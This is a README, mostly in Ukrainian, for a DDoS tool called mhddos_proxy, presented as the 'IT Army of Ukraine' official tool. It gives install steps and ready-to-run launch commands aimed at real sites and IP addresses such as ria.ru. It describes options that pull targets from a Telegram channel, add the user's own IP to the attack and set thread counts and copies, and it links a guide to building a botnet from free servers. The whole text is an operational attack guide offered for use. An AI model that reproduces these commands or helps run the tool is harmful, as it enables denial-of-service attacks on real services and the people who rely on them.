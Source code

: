 ## IT Army of Ukraine Official Tool 

### [English Version](/README-EN.md)

- Вбудована база проксі з величезною кількістю IP по всьому світу
- Можливість задавати багато цілей з автоматичним балансуванням навантаження
- Безліч різноманітних методів
- Ефективне використання ресурсів завдяки асихронній архітектурі

### ⏱ Останні оновлення
  
Оновлення версії для Windows | Mac | Linux | Android | Docker: https://telegra.ph/Onovlennya-mhddos-proxy-04-16  

- **08.06.2020** Додано налаштування `--copies auto` для автоматичного вибору значення з врахуванням доступних ресурсів
- **25.05.2022** Покращено вивід за замовчуванням - більше нема потреби в параметрі `--debug`
- **24.05.2022** Додано можливість запуску з автоматичним оновленням - див. пункт [Запуск](#2--запуск-наведено-різні-варіанти-цілей)
- **21.05.2022** Додано англійську локалізацію - параметр `--lang EN` (в майбутньому можуть бути додані інші мови)

### 1. 💽 Встановлення

#### Розширені інструкції - [натисніть тут](/docs/installation.md) 

#### Python (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

Потребує python >= 3.8 та git

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    python3 -m pip install -r requirements.txt

#### Docker

Встановіть і запустіть Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (наведено різні варіанти цілей)

#### Python з автоматичним оновленням (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

    ./runner.sh python3 https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (потребує оновлення вручну) (якщо не працює - спробуйте `python` або `python3.10` замість `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (для Linux додавайте sudo на початку команди)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 3. 🛠 Налаштування (більше у розділі [CLI](#cli))

Усі параметри можна комбінувати, можна вказувати і до і після переліку цілей

- Щоб додати ваш IP/VPN до атаки (особливо актуально для виділених серверів), додайте параметр `--vpn`
- Щоб обрати цілі від https://t.me/itarmyofukraine2022, додайте параметр `--itarmy`
- Кількість потоків: `-t XXXX` - за замовчуванням 7500 (або 1000 якщо на машині лише 1 CPU)
- Запуск декількох копій: `--copies X` або `--copies auto`, при наявності 2+ CPU та мережі 100+ Mb/s

### 4. 📌 Допомогти в пошуку нових проксі для mhddos_proxy
Сам скрипт та інструкції по встановленню тут: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 5. 🐳 Комьюніті
- [Створення ботнету з 30+ безкоштовних та автономних(працюють навіть при вимкненому ПК) Linux-серверів](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [Детальний розбір mhddos_proxy та інструкції по встановленню](docs/installation.md)
- [Аналіз засобу mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Приклад запуску через docker на OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)
- [Docker-image](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker), який запускає одночасно mhddos_proxy та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder) (для Linux / Mac додайте sudo на початку):
- [Налаштування з нотифікаціями у Телеграм](https://github.com/sadviq99/mhddos_proxy-setup)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --debug                Detailed log for each target
      --copies 1             Number of copies to run (default is 1). Use "auto" to set the value automatically
      --lang {en,ua}         Select language (default is ua)

### 7. Власні проксі

#### Формат файлу (будь який на вибір):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

де `protocol` може бути одним з 3-ох: `http`|`socks4`|`socks5`, якщо `protocol`не вказувати, то буде обрано `http`  
наприклад для публічного проксі `socks4` формат буде таким:

    socks4://114.231.123.38:3065

а для приватного `socks4` формат може бути одним з таких:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Віддалений файл для Python та Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

де https://pastebin.com/raw/UkFWzLOt - ваша веб-сторінка зі списком проксі (кожен проксі з нового рядка)  
  
**path - Шлях до локального файлу, для Python**
  
Покладіть файл у папку з `runner.py` і додайте до команди наступний параметр (замініть `proxies.txt` на ім'я свого файлу)

    --proxies proxies.txt https://ria.ru

де `proxies.txt` - ваша ваш файл зі списком проксі (кожен проксі з нового рядка)
